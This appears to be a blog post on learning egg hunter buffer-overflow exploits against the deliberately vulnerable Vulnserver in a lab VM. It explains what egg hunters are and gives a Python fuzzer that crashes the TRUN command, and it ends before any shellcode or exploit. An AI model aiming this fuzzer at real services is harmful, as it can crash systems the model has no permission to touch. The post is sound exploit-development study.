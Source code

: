 ```yaml
---
title: "Lets go Egg Hunting!"
date: "2020-04-10"
author: frosty
categories:
  - "projects"
tags:
  - "buffer-overflows"
  - "exploitation"
  - "osce"
coverImage: "eggs-1-e1597613155767.png"
---
```


It's that time of year when many around the world gather and go easter egg hunting. However, at the time of writing this we are advised to remain home. For me, this meant an opportunity to get my computer to go hunting eggs for me! Of course, in this case I mean buffer overflow egg hunting exploits. A buffer overflow is an exploit where the user is able to control the execution flow of a program.

Egg hunters are often used when there is not enough space for the adversary to place shell code. Instead, the adversary places egg hunter shell code and the computer will search the memory to look for the egg, and execute the shell code by the eggs. The egg is made up of 8 bytes, split into two identical tags. The "default" egg is `w00tw00t` where `w00t` is the tag. The reason we need to use two tags is to provide a more consistent method of finding the egg; and so that we don't find the tag within the code which sets the hunter going.

Before we get started into the details, I'd like to mention some links which helped me learn this.

- [InfoSec-Prep](https://discord.gg/YjXfq4g) community on Discord
- [FuzzySecurity](https://www.fuzzysecurity.com/tutorials/expDev/4.html)
- [H0mbre](https://h0mbre.github.io/Egghunter_GMON_Vulnserver/)

* * *

## Fuzzing the program

I wanted to use a simple application and vulnerability to learn, so I used Vulnserver and used the TRUN command which is commonly used to learn a vanilla EIP overwrite buffer overflow. I'll be exploiting Vulnserver with Immunity Debugger. The software will run in a 32-bit Windows 7 VM.

First we must identify the buffer length by reliably crashing the program. For this I use my fuzzer script below, and see that the application crashed when sending 2100 bytes.

```py
#!/usr/bin/python
import sys, socket
from time import sleep

ip = "10.21.1.14"
port = 9999
buffer = "A" * 100

while True:
    try:
        print "[+] Sending buffer of %s bytes" % str(len(buffer))

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.send(('TRUN /.:/' + buffer))
        s.close()

        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print "[-] Fuzzing crashed at %s bytes" % str(len(buffer))
```